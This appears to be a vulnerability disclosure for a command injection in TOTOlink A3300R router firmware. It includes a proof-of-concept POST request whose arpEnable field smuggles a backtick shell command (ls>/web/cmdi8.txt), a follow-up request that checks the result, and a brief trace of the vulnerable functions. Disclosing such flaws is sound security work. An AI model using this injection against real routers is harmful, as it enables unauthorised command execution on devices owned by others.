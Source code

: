 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setStaticDhcpRules` request,`arpEnable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C86034DE71B6FBEB HTTP/1.1
Host: itotolink.net
Content-Length: 84
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/staticdhcp.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"arpEnable":"1`ls>/web/cmdi8.txt`","addEffect":"3","topicurl":"setStaticDhcpRules"}
```

injection the command "ls>/web/cmdi8.txt"

![image-20240119132455152](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240119132455152.png)

check the result.

```
GET /cmdi8.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/advance/staticdhcp.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119132459834](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240119132459834.png)

## Analysis

sub_421BF0 will handle the `setStaticDhcpRules` request. sub_421BF0  get `arpEnable` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119132645719](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240119132645719.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240119132645719.png)

